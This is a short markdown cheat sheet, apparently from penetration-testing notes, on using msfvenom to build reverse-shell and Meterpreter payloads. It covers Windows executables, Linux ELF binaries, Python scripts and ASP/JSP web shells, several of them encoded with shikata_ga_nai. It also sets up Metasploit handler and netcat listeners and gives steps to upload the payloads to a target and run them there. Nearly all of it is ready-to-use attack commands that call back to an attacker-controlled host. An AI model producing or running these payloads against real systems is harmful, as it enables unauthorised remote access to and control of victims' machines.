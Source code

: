 # MSFvenom

## Generate Shellcode

Create Executable to drop on Windows target

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe > wince.exe
```

Upload wince.exe to the Windows target

Start netcat listener

Execute `wince.exe` from the Windows target

## Encoder

### Windows

Create Meterpreter shell executable

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe > winmet.exe
```

Upload winmet.exe to the Windows target

Set up a Meterpreter Listener

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Execute winmet.exe from the Windows target

### Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f elf > linmet
```

## Custom

### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > cmdpy.sh
```

Upload to target

Start netcat listener

Execute from target

### Python Meterpreter

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw cmd.py
```

Upload to target

Set up a Meterpreter Listener

```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Execute from target

## ASP

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f asp > cmd.asp
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f raw > cmd.jsp
```

## Resources

### Payloads

{% embed url="https://hannahsuarez.github.io/2017/msfvenom-payloads" %}

##
